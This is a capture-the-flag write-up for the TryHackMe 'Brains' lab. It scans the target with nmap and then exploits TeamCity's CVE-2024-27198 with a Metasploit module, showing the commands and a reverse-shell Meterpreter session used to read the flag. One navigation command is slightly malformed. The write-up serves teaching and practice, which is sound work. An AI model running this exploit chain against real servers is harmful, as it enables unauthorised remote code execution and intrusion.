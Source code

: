![Nmap Scan](Theme%20Brains.JPG)
> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# RED exploit the server!
<Details>
# 1. First Step: run in the Terminal "nmap -p- "<Target_IP_Address>"

```bash
nmap -p- 10.10.252.192
````
1. "nmap" -> The network scanner tool
2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
3. "<Target_IP_Address>" -> The IP address of the target — in the case of the Brains room
   
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)

# What ports are open and why they matter: 
1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.

# Run a targeted service/version scan for PORT 50000 "nmap -sV -p 50000 <Target_IP_Address>"
```bash
nmap -sV -p 50000 10.10.252.192
```

# 2. Second Step: What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability

*The most interesting one here is Port 50000: even though it's labeled ibm-db2, we know now it runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
```bash
msfconsole
```
1. "msfconsole" -> This launches the Metasploit interface.

```bash
search teamcity
```
1. "search teamcity" -> This will list available exploit modules related to TeamCity
*Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198*

#  Use the module:
```bash
use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
```
# After loading an exploit module in Metasploit, you should always run: 
```bash
options
```
1. "options" -> This command shows you all the configurable parameters for the selected module
   
![Nmap Scan](Brain%20Room%20exploit%20run.JPG)

*We need to set the correct options before running the exploit.*
```bash
set RHOSTS 10.10.252.192     # Target IP address
set RPORT 50000              # Target port where TeamCity is running
```
*Once all the necessary parameters (like RHOSTS, RPORT) are configured and verified using the options command, it's time to execute the exploit*
```bash
run   #or exploit
```
# Expected Output:
*If the target is vulnerable and the configuration is correct, you should see output similar to this:*
```bash
[*] Started reverse TCP handler on 10.10.X.X:4444
[*] Sending stage (57971 bytes) to 10.10.X.X
[*] Meterpreter session 1 opened ...
```
*This confirms that you now have a meterpreter shell on the target machine!*

# Now That We Are in Meterpreter...Navigate the file system
```bash
cd /home/cd ubuntu
ls
```
*Once you find it, read its contents*
```bash
cat flag.txt
```
![Nmap Scan](Brain%20Room%20flag.JPG)

# ✅ CONGRATULATIONS!!! Now we have the first FLAG
# For ethical and platform policy reasons, I cannot display the actual contents of the flag.txt file
*Instead, here is a simulated example of what the output would look like:*

```bash
meterpreter > cat flag.txt
THM{redacted_for_policy}
```
</Details>
